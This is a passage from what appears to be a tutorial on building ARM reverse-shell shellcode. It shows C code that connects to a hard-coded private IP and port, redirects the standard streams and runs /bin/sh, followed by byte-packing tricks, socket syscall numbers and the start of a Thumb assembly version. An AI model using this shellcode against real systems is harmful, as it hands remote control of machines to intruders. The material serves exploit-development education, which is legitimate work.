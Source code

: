         connect(fd, (struct sockaddr *)&sa, sizeof(sa));

        dup2(fd, 0);
        dup2(fd, 1);
        dup2(fd, 2);

        execve("/bin/sh", 0, 0);

        return 0;
    }


Or this

    unsigned char sa[16] = {
        0x02, 0x00, 0x11, 0x5c, 0xc0, 0xa8, 0x0a, 0x0c,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff };

or even something semi-random like this

    unsigned char sa[16] = {
        0x02, 0x00, 0x11, 0x5c, 0xc0, 0xa8, 0x0a, 0x0c,
        '/', 'b', 'i', 'n', '/', 's', 'h', 'A' };

and the program still works.

This last hack is not necessary, but will save 8 bytes in the resulting shellcode.

The syscall numbers for the socket functions are bigger then those used in the previous examples.

    #define __NR_socket (__NR_SYSCALL_BASE + 281)
    #define __NR_bind (__NR_SYSCALL_BASE + 282)
    #define __NR_connect (__NR_SYSCALL_BASE + 283)
    #define __NR_listen (__NR_SYSCALL_BASE + 284)
    #define __NR_accept (__NR_SYSCALL_BASE + 285)

The arm instruction set has [limitations on immediate constants][mov-immed-arm] that can be used with a **mov** instruction. Values 0-255 are not a problem and can be handled directly.

For the syscall numbers needed for these examples, two instructions can be used

    mov r7, #200
    add r7, #81

So here is an assembly version of the same **reverse-shell** C code

    .text
    .global _start

    _start:
        add r1, pc, #1
        bx r1

    .code 16
        adr r0, _sa
        eor r2, r2, r2
        @ replace the 0xff in the first word with 0x00
        strb r2, [r0, #1]
        @ null terminate the /bin/sh string
        strb r2, [r0, #15]


[azeria-bind-shell]: https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/
[azeria-reverse-shell]: https://azeria-labs.com/tcp-reverse-shell-in-assembly-arm-32-bit/
[ms-reverse-shell]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit
[mov-immed-arm]: http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0473e/Chdfgchf.html